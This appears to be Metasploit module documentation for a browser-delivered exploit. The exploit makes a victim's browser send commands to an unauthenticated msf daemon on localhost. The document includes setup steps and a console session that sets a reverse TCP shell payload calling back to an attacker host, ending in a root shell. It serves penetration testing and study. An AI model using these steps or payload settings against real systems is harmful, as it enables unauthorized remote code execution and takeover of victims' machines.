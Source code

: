 ## Description

This module connects to the Metasploit msf daemon and uses the ruby interpreter
to achieve a shell. This module can be used when the vulnerable service is only
listening on localhost and the attacker has not achieved a foothold on the
machine. To achieve code execution, the data is sent from the victim's browser.
To achieve this, the victim must visit the attacker's web site.

## Vulnerable Application

[Metasploit](https://github.com/rapid7/metasploit-framework) has a legacy method
of providing remote access. The msf daemon provides no means of authentication
and is therefore vulnerable against an attacker who has IP access to the daemon.
In those cases where the daemon is listening on localhost, we take advantage of
the fact that the victim's web browser has IP access to the daemon.

Because the msfconsole-program is line-based, it is possible to successfully
send commands through the HTTP-protocol. This module takes advantage of this by
placing the msfconsole-command in the POST-data of a HTTP-request. Since these
POST-requests are considered safe to send cross-domain, it is possible to send
them from the attacker's web application and to localhost using the victim's
browser.

All versions of Metasploit are affected by this module, however testing has only
been performed on the following targets:

* Metasploit 5.0.0 on Ubuntu 16.04 (using Firefox and Chrome)
* Metasploit 4.16.51 on Windows 7 (using IE, exploitation failed in Firefox and
  Chrome)

***NB!*** Exploitation on Windows had a higher degree of success, when the
quiet-flag was sent to the msf daemon. On Linux, it made no difference.

Source code and installers:

  * [Source Code Repository](https://github.com/rapid7/metasploit-framework)
  * [Installers](https://docs.metasploit.com/docs/development/maintainers/downloads-by-version.html)

## Verification Steps

1. Start the vulnerable service `msfd -q -f`
2. Start `msfconsole`
3. Do: `use exploit/multi/browser/msfd_rce_browser`
4. Do: `set REMOTE_IP [IP]` (default: `127.0.0.1`)
5. Do: `set RPORT [PORT]` (default: `55554`)
6. Do: `set PAYLOAD [PAYLOAD]`
7. Do: `exploit`
8. Do: Visit the listed URL from the victim's machine
9. You should get a shell


## Options

Options unique for this module is described below.

  **REMOTE_IP**

  IP to target when running inside the victim's browser.

  **REMOTE_PORT**

  Remote port the vulnerable service is running at, default is 55554.


## Scenarios

### Through the victim's browser

 ```
  msf > use exploit/multi/browser/msfd_rce_browser
  msf exploit(multi/browser/msfd_rce_browser) > set payload ruby/shell_reverse_tcp
  payload => ruby/shell_reverse_tcp
  msf exploit(multi/browser/msfd_rce_browser) > set lhost 192.168.0.17
  lhost => 192.168.0.17
  msf exploit(multi/browser/msfd_rce_browser) > set lport 443
  lport => 443
  msf exploit(multi/browser/msfd_rce_browser) > exploit
  [*] Exploit running as background job 0.

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443
  msf exploit(multi/browser/msfd_rce_browser) > [*] Using URL:
  http://0.0.0.0:8080/J5ras6oYftFWW4
  [*] Local IP: http://172.17.0.2:8080/J5ras6oYftFWW4
  [*] Server started.
  ```

Visit the web site listed in a browser on the victim's machine and you should
get the output below.

 ```
  [*] 192.168.0.17     msfd_rce_browser - 192.168.0.17     msfd_rce_browser
  Sending HTML...
  [*] Command shell session 4 opened (172.17.0.2:443 -> 192.168.0.17:48376) at 2018-04-22 19:15:07 +0000
  id
  [*] exec: id

  uid=0(root) gid=0(root) groups=0(root)
 ```
